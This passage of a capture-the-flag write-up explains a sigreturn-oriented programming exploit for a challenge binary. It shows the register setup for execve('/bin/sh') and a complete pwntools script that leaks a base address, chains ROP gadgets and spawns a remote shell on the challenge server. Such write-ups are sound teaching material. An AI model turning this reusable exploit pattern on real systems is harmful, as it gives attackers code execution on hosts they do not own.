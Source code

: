 We will
- set `rip` to the address of the `syscall` instruction again,
- set `rax` to `59` to execute the `execve` syscall,
- set `rsp` to somewhere in the data sagment so we have a valid stack,
- set `rdi` to a `"/bin/sh` string (we can just write one into the data segment as well),
- and set `rsi` and `rdx` to `0`.

This will now execute `execve("/bin/sh", NULL, NULL)` and give us a shell.

Here is the complete exploit code:

```python
#!/usr/bin/env python3

from pwn import *
import re

MAIN_TARGET_OFFSET = 0x5555555552bb - 0x555555554000
DATA_OFFSET = 0x4000
SYSCALL_OFFSET = 0x11e4
ROPNOP_RAX_OFFSET = 0x125b

SYS_SIGRETURN = 15
SYS_EXECVE = 59

p = remote("hax1.allesctf.net", 9300)

leak = p.recvline()
bin_addr = int(re.findall(b"start: 0x(.*?) ", leak)[0], 16)

payload = b"A" * 16
payload += p64(bin_addr + DATA_OFFSET + 0x20)   # rbp
payload += p64(bin_addr + MAIN_TARGET_OFFSET)   # ret addr 1 (back to read in main)
payload += b"A" * 0x20
payload += p64(bin_addr + DATA_OFFSET + 0x28)   # rbp
payload += p64(bin_addr + ROPNOP_RAX_OFFSET)    # ret addr 2 (set rax in ropnop)
payload += b"A" * 0x28
payload += p64(bin_addr + SYSCALL_OFFSET)       # ret addr 3 (syscall sys_sigreturn)

context.arch = "amd64"
frame = SigreturnFrame()
frame.rip = bin_addr + SYSCALL_OFFSET
frame.rsp = bin_addr + DATA_OFFSET + 0x100
frame.rax = SYS_EXECVE
frame.rdi = bin_addr + DATA_OFFSET + 0x20
frame.rsi = 0
frame.rdx = 0

payload += bytes(frame)

p.send(payload)
sleep(1)

p.send(p64(SYS_SIGRETURN) * 2 + b"/bin/sh\0")
p.interactive()
```

So maybe if you really don't want to get ropped and pwned you should just use a safer language like `Rust`.
